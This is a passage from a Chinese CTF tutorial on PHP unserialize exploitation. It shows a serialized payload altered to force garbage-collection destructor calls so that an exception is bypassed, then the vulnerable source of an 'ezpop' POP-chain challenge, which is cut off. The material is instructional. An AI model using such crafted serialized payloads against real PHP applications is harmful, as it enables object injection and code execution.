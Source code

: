 输出

```php
a:2:{i:0;O:1:"B":0:{}i:1;i:0;}
//含义
//数组:长度为2::{int型:长度0;类:长度为1:类名为"B":值为0 int型:值为1：int型;值为0
```

我们尝试将第二个索引值设为空，就可以触发GC回收机制，因此我们可以修改一下反序列化的字符串

```php
a:2:{i:0;O:1:"B":0:{}i:0;i:0;}
```

我们再尝试一下反序列化

![GC回收机制2.png](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-b8d753f9d8b31b10c657c64b1ccc9e6dfc8c8223.png)

发现成功能执行销毁方法了，这也是我们再反序列化中绕过异常的一种方法。

实战
--

### \[2023年第三届陕西省大学生网络安全技能大赛\]ezpop

在js文件中找到源码

```php
<?php
highlight_file(__FILE__);

class night
{
    public $night;

    public function __destruct(){
        echo $this->night . '哒咩哟';
    }
}

class day
{
    public $day;

    public function __toString(){
        echo $this->day->go();
    }

    public function __call($a, $b){
        echo $this->day->getFlag();
    }
}

class light
{
    public $light;

    public function __invoke(){
        echo $this->light->d();
    }
}

class dark
{
    public $dark;

    public function go(){
        ($this->dark)();
```